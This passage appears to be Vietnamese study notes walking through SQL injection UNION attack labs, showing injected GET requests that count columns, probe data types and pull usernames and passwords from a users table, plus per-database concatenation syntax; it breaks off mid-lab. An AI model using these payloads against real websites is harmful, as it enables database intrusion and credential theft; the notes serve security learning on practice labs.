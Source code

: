  ```http
GET /filter?category=Accessories' UNION SELECT NULL--            //500 Internal Server Error
GET /filter?category=Accessories' UNION SELECT NULL,NULL--       //200 OK
GET /filter?category=Accessories' UNION SELECT NULL,NULL,NULL--  //500 Internal Server Error
 ```

 Số cột bằng `2`.

* Xác định kiểu dữ liệu của các cột

 ```http
GET /filter?category=Accessories' UNION SELECT 'abc',NULL--       //200 OK
GET /filter?category=Accessories' UNION SELECT NULL,'abc'--       //200 OK
```

Cả `2` cột đều chứa hoặc chấp nhận dữ liệu chuỗi.

* Tấn công để truy xuất dữ liệu `username`, `password` từ bảng `users`.

```http
GET /filter?category=Accessories' UNION SELECT username,password FROM users-- 
```

Và ta có được thông tin đăng nhập `username: administrator`, `password: ho06o0hazcl4cqupdtaf`.

## Lấy nhiều giá trị trong một cột

Nếu truy vấn chỉ trả về 1 cột, hãy nối nhiều giá trị lại bằng toán tử nối chuỗi và thêm ký tự phân tách (vd. ~) để phân biệt.

You can concatenate together multiple strings to make a single string. 

```sql
Oracle    	'foo'||'bar'
Microsoft 	'foo'+'bar'
PostgreSQL 	'foo'||'bar'
MySQL     	'foo' 'bar' [Lưu ý khoảng trống giữa hai chuỗi]
            CONCAT('foo','bar')
```

### Ví dụ

**Lab: SQL injection UNION attack, retrieving multiple values in a single column**

* Xác định số cột trả về trong truy vấn gốc

 ```http
GET /filter?category=Accessories' UNION SELECT NULL--            //500 Internal Server Error
GET /filter?category=Accessories' UNION SELECT NULL,NULL--       //200 OK
GET /filter?category=Accessories' UNION SELECT NULL,NULL,NULL--  //500 Internal Server Error
 ```

 Số cột bằng `2`.

* Xác định kiểu dữ liệu của các cột

 ```http
GET /filter?category=Accessories' UNION SELECT 'abc',NULL--       //500 Internal Server Error
GET /filter?category=Accessories' UNION SELECT NULL,'abc'--       //200 OK
```
